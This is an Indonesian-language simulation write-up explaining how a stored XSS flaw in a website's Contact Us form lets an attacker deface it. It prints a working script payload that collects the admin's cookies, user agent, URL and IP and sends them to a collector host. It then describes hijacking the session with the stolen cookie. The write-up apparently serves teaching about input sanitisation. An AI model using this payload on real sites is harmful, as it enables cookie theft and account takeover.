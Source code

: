 ## Simulation 1 - Mas John Website

Untuk melakukan deface pada mas John website hacker melakukannya dengan memanfaatkan celah XSS yang ada pada fitur Contact Us form. Tipe serangan yang dilakukan adalah `stored XSS`. Hacker mengirimkan payload XSS pada inputan field Nama yang ada pada form Contact Us.

Mas John tidak melakukan sanitasi terhadap karaker special pada HTML seperti `<`, `>`, `&`, `"`, `'`. Dengan tidak dilakukannya sanitasi maka inputan nama ketika ditampilkan pada admin area berpotensi mendapatkan serangan XSS.

Berikut ini adalah payload yang dikirimkan hacker pada inputan field Nama.

```
<script>
var getTheirIp = function(onDone) {
    var ajax = new XMLHttpRequest();
    ajax.addEventListener('load', function(e) {
        onDone(this.responseText.replace("\n", ""));
    });
    ajax.open('GET', 'https://wtfismyip.com/text');
    ajax.send();
};

var postToMe = function(ipAddr) {
    var date = new Date();
    var data = {
        UA: navigator.userAgent,
        Cookie: document.cookie,
        URL: location.href,
        TheirIP: ipAddr
    };

    var ajax = new XMLHttpRequest();
    var targetUrl = 'http://127.0.0.1:9091/collect/?data=' + JSON.stringify(data);

    ajax.open('GET', targetUrl);
    ajax.send();
};

getTheirIp( postToMe );
</script>
```

Fungsi dari payload diatas adalah mengirimkan data-data dari yang membuka pesan yang masuk di Contact Us dalam hal ini Mas John. Jadi ketika halaman Contact Us pada Admin area ditampilkan maka ia akan mengirimkan data ke alamat hacker yaitu `http://127.0.0.1:9091/collect/data/` informasi yang diambil adalah:

- User Agent
- Cookie
- URL
- IP dari admin

Ketika hacker sudah mendapatkan data-data diatas, dia akan mencoba untuk melakukan session hijacking dengan memanfaatkan cookie yang telah dicuri. Alamat URL sudah diketahui dari data yang diterima. Hacker tinggal mengubah Cookie pada browser sesuai dengan cookie admin yang dicuri dan harusnya akses bisa dibobol.
